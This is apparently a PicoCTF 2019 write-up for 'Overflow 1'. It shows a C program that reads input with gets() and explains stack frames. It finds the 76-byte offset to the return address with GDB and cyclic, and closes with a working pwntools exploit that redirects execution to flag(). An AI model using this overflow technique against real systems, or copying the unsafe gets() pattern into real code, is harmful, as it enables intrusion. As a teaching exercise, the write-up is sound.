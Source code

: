 [Back](PicoFrontPage.md)

# Overflow 1
---

### Intro
Overflow 1 focuses on the stack, more specifically, how function calls work, and thus, how we can exploit them.

### Tools
* GEF-GDB
* Pwntools - Python3
* Your favourite text editor

### Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```
Some important point(s):
* Calls `gets()`

#### Functions and Function Calls

When a function is called, first its parameters are thrown on the stack, then the instruction pointer (the return address), then the old base pointer, during all of this the stack pointer is constantly moving up to point to the top of the stack. Finally, the base pointer is moved up to match the stack pointer. Let's draw that out.

<!-- Insert BasicCall -->
![BasicCall](../Images/PicoCTF2019/BasicCall.jpg)

### Analysis

#### Static

#### GEF-GDB

Fire up GDB for our executable (`gdb ./vuln`) and `info functions` to see all the different functions used.
You can find GDB cheat sheets online for more commands, those would be helpful.

Scrolling down, we can see some functions that are labelled `vuln` and `flag`.

<!-- Insert screenshot -->
![infofunctions](../Images/PicoCTF2019/infofunctions.jpg)

If we `disassemble main` we can also see that it calls the `vuln()` function.

<!-- Insert screenshot -->
![disasmain](../Images/PicoCTF2019/disasmain.jpg)

We can `disassemble vuln` to get a more in-depth view of what happens when `vuln` function is called.

<!-- Insert Screenshot -->
![disasvuln](../Images/PicoCTF2019/disasvuln.jpg)

If we draw this out, we can get a better understanding of what is happening.

Another important note is that, the vuln calls the `gets()` function and if we check the man page for `gets` we'll see:
`NEVER USE THIS FUNCTION`

<!-- Screenshot of man page -->
![NOGETS](../Images/PicoCTF2019/NEVERUSETHISFUNCTION.jpg)

The reason why `gets()` is extremely dangerous to use is because it will keep taking input until an EOF or newline is fed through. This allows us to overflow the buffer and leak into other important components of the stack. So in this case, we can overwrite the return address in `$eip`.

So drawing everything that was noticed before.

<!-- Insert stack image with measurements -->
![StackOverflow1](../Images/PicoCTF2019/StackOverflow1.jpg)

And thus, we can see that the buffer is `0x44`, `$ebx` is `0x4`, `$ebp` is `0x4` and `$eip` is `0x4`. (x86 32-bit has 32-bit registers = 4 bytes).
So adding them (except `$eip`), we can see that, to reach `$eip`, it is `0x4c` in hex.
Using Python on command line, we can see that `0x4c` translates to 76 bytes.
```
	python
	0x4c
```
And now we know how many bytes to feed it to reach the instruction pointer.
From here we can do neat things.

### Dynamic Analysis

In this, we'll be making use of `cyclic`, a nice tool to help us count bytes easily.

First, give it a normal run without GEF.

1. It'll ask you for a string
2. You input a string
3. And it'll give another string output that apparently prints out the return address

#### GEF-GDB

Fire up the GDB again, and this time we're going to let it run through the debugger.
Now, open up another terminal and run the command `cyclic 100`, this will give you a string of 100 bytes to feed to the program.

So, let the program run through `r` or `run`, and we get met by a string output asking for our input.
Feed it the copied string generated from the `cyclic` command.

<!-- Insert the output screencap -->
![OverflowedOverflow1](../Images/PicoCTF2019/OverflowedOverflow1.jpg)

We can now see that the return address is different and we are met with a segmentation fault. This is because `0x61616174` (hex for taaa, little endian) does not actually exist, but what if we were to replace it with an address that DID exist and is in the form of a flag?
Back to the terminal with the `cyclic` command, or a new one if you closed it.
And we will be typing `cyclic -l taaa`. This will show the amount of bytes that are required to reach `taaa` or the instruction pointer (`$eip`).
We get the output of 76 and that just confirms our static analysis.

### EXPLOIT

So from here, we will be replacing the return address to the address of the flag function so that we can obtain the flag.
There are many ways to obtain the address of the flag function.
Something like doing `info functions` to find the address of the flag will work, anything goes, as long as it's right really.
`0x080485e6` - `flag()` address.

#### Pwntools

Here is the script:

```python
from pwn import *

proc = process('./vuln')

# variable for target address
addr = 0x080485e6

# set up payload, send 76 bytes of rubbish (the letter A in this case) and then the flag function address to overwrite the return address in little endian (xe6\x85\x04\x08)
payload = b'A'*76 + p32(addr)

proc.recvuntil(b'Give me a string and lets see what happens:')

proc.sendline(payload)

proc.interactive()
```

Run the exploit and win.

[Overflow 2](overflow2writeup.md)
